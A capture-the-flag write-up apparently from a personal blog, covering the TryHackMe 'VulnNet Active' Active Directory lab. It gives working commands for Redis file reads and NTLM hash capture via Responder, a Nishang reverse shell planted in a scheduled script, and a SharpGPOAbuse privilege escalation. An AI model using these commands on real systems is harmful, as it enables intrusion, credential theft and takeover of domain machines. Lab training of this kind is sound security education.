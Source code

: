 ```yaml
---
title: "Vulnet active tryhackme"
date:  2023-04-12 15:04:23
categories: [active directory]
tags: [active directory]
---
```



**Enumeration**

This room on tryhackme is all about active directory and domain controller. So let's begin our machine with Nmap scanning.

![enum](https://prabinsigdel.com.np/images/enum.jpg)

Every domain controller services are up and running which is part of AD DC. But `Kerberos` is not running so we can not [AS-REP](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/) roasting the usernames to check if they are valid.
I ran the Nmap to scan all ports.

![enum](https://prabinsigdel.com.np/images/nmap_all.jpg)

Here many ports are open so it is always beneficial to check for all ports. RPC and LDAP services are also running, Smb is a very good option to start with and I did the same.

**SMB port 445 enumeration**

But unfortunately, we got access denied for every possible command of `smbclient, smbmap, and netexec` to enumerate users' share on smb port 445.
It confirms that no guest and a null session are allowed.

**Redis exploitation**

But my eyes got on to port 6379 (Redis). I was unaware of this but [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis) are always a good option to search for anything.
Redis is a No-sql database that stores information alongside key-value called keyspaces. The version of Redis key-value store 2.8.2402 is vulnerable to ssrf + CRLF.

![redis](https://prabinsigdel.com.np/images/redis.jpg)

Here we can exploit Redis via ssrf, but we must know the path to the windows server files
`redis-cli -h 10.10.245.19 eval "dofile('C:\\\Users\\\enterprise-security\\\Desktop\\\users.txt')" 0`

![redis](https://prabinsigdel.com.np/images/redis_exp.jpg)

we got the users.txt flag. If we can get any files why not exploit further to get Authenticated user's NTLM hash? If we forge redis to connect back to our attacking machine, maybe users' hashes will be exposed.
I set up the responder from impacket, when users from the Redis server try to connect to our machine responder will log the hashes.

`sudo responder -I 10.9.0.31`
`redis-cli -h 10.10.245.19 eval "dofile('//10.9.0.31/test')" 0`

![responder](https://prabinsigdel.com.np/images/responder.jpg)
Since we got the user enterprise-security hash, we cracked with john the ripper and got the password.

**SMB port 445 enumerations 2nd round**

We have now a username and password, so we can enumerate allowed shares on smbserver. I tried to log into enterprise-Share on smb and successfully logged in.
`smbmap -H 10.10.155.156 -u enterprise-security -p pass`

![smbmap](https://prabinsigdel.com.np/images/smbmap.jpg)

`smbclient //10.10.155.156/enterprise-share -U 'enterprise-security' pass`

![smbclient](https://prabinsigdel.com.np/images/smbclient.jpg)

There is a Powershell script scheduled to run, PurgeIrrelevantData_1826.ps1 with content.
`rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue`

Maybe we can replace this script with a reverse shell. We do have written permission for this share.

**Initial foothold**

We use [Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell to replace PurgeIrrelevantData_1826.ps1 and put it on the smb server overriding the same file and setting up Netcat listener to catch the shell.
Add this line to the bottom of the script and wait for netcat to catch the shell.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.9.0.31 -Port 4444`

`nc -lvnp 4444`

![shell](https://prabinsigdel.com.np/images/shell.jpg)

Finally, we got reverse shell as enterprise security for the windows server.

**Privilege Escalation**

When I get the foothold on the machine, I always start with winPEAS.exe and it does give me some useful information which is SeImpersonatePrivilege.
I collect domain info with bloodhound-python and upload it to the bloodhound for analyzing users, groups, and domains.
![bloodhound](https://prabinsigdel.com.np/images/bloodhound.jpg)

Here is the shortest path to the admin where we will be abusing one of the `GPO(group policy object)` on which we can edit users' permission, local groups, memberships, and computer tasks.
We use `SharpGPOAbuse.exe` to escalate our privilege.

`.\SharpGPOAbuse.Exe AddComputerTask TaskName "babbadeckl_privesc" Author vulnnet\administrator Command "cmd.exe" Arguments "/c net localgroup administrators enterprise-security /add" GPOName "SECURITY-POL-VN"`

`gpupdate \force`

We can access admin via smbclient.
`smbclient //10.10.56.175/C$ -U 'enterprise-security' sand_………..`